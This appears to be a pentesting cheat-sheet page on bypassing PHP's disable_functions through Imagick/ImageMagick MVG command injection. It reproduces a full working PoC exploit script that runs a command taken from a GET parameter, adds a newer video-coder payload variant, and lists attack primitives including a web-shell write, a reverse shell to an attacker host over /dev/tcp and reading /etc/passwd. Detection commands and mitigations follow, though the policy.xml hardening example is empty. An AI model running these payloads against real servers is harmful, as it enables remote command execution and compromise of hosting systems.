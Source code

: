 # Imagick <= 3.3.0  ‑ PHP >= 5.4  *disable_functions* Bypass

> The well-known *ImageTragick* family of bugs (CVE-2016-3714 et al.) allows an attacker to reach the underlying **ImageMagick** binary through crafted MVG/SVG input. When the PHP extension **Imagick** is present this can be abused to execute shell commands even if every execution-oriented PHP function is black-listed with `disable_functions`.
>
> The original PoC published by RicterZ (Chaitin Security Research Lab) in May 2016 is reproduced below.  The technique is still regularly encountered during contemporary PHP 7/8 audits because many shared-hosting providers  simply compile PHP without `exec`/`system` but keep an outdated Imagick + ImageMagick combo.

From 

```php
# Exploit Title : PHP Imagick disable_functions bypass
# Exploit Author: RicterZ  (ricter@chaitin.com)
# Versions      : Imagick <= 3.3.0  |  PHP >= 5.4
# Tested on     : Ubuntu 12.04 (ImageMagick 6.7.7)
# Usage         : curl "http://target/exploit.php?cmd=id"
<?php
// Print the local hardening status
printf("Disable functions: %s\n", ini_get("disable_functions"));
$cmd = $_GET['cmd'] ?? 'id';
printf("Run command: %s\n====================\n", $cmd);

$tmp   = tempnam('/tmp', 'pwn');     // will hold command output
$mvgs  = tempnam('/tmp', 'img');     // will hold malicious MVG script

$payload = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/x.jpg"|$cmd >$tmp")'
pop graphic-context
EOF;

file_put_contents($mvgs, $payload);
$img = new Imagick();
$img->readImage($mvgs);     // triggers convert(1)
$img->writeImage(tempnam('/tmp', 'img'));
$img->destroy();

echo file_get_contents($tmp);
?>
```

---

## Why does it work?

1. `Imagick::readImage()` transparently spawns the **ImageMagick** *delegate* (`convert`/`magick`) binary.
2. The MVG script sets the *fill* to an external URI.  When a double quote (`"`) is injected, the remainder of the line is interpreted by `/bin/sh ‑c`  that ImageMagick uses internally → arbitrary shell execution.
3. All happens outside of the PHP interpreter, therefore *`disable_functions`*, *open_basedir*, `safe_mode` (removed in PHP 5.4) and similar in-process restrictions are completely bypassed.

## 2025 status – it is **still** relevant

* Any Imagick version that relies on a vulnerable ImageMagick backend remains exploitable.  In lab tests the same payload works on PHP 8.3 with **Imagick 3.7.0** and **ImageMagick 7.1.0-51** compiled without a hardened `policy.xml`.
* Since 2020 several additional command-injection vectors have been found (`video:pixel-format`, `ps:`, `text:` coders…).  Two recent public examples are:
  * **CVE-2020-29599** – shell injection via the *text:* coder.
  * **GitHub issue #6338** (2023) – injection in the *video:* delegate.

If the operating system ships ImageMagick < **7.1.1-11** (or 6.x < **6.9.12-73**) without a restrictive policy file, exploitation is straightforward.

## Modern payload variants

```php
// --- Variant using the video coder discovered in 2023 ---
$exp = <<<MAGICK
push graphic-context
image over 0,0 0,0 'vid:dummy.mov" -define video:pixel-format="rgba`uname -a > /tmp/pwned`" " dummy'
pop graphic-context
MAGICK;
$img = new Imagick();
$img->readImageBlob($exp);
```

Other useful primitives during CTFs / real engagements:

* **File write**  – `... > /var/www/html/shell.php`  (write web-shell outside *open_basedir*)
* **Reverse shell** – `bash -c "bash -i >& /dev/tcp/attacker/4444 0>&1"`
* **Enumerate** – `id; uname -a; cat /etc/passwd`

## Quick detection & enumeration

```bash
# PHP side
php -r 'echo phpversion(), "\n"; echo Imagick::getVersion()["versionString"], "\n";'

# System side
convert -version | head -1                 # ImageMagick version
convert -list policy | grep -iE 'mvg|https|video|text'   # dangerous coders still enabled?
```

If the output shows the `MVG` or `URL` coders are *enabled* the target is probably exploitable.

## Mitigations

1. **Patch/Upgrade**  – Use ImageMagick ≥ *7.1.1-11* (or the latest 6.x LTS) and Imagick ≥ *3.7.2*.
2. **Harden `policy.xml`**  – explicitly *disable* high-risk coders:

   ```xml
   
   
   
   
   
   
   ```

3. **Remove the extension**  on untrusted hosting environments.  In most web stacks `GD` or `Imagick` is not strictly required.
4. Treat `disable_functions` only as *defence-in-depth* – never as a primary sandboxing mechanism.

## References

* [GitHub ImageMagick issue #6338 – Command injection via video:pixel-format (2023)](https://github.com/ImageMagick/ImageMagick/issues/6338)
* [CVE-2020-29599 – ImageMagick shell injection via text: coder](https://nvd.nist.gov/vuln/detail/CVE-2020-29599)

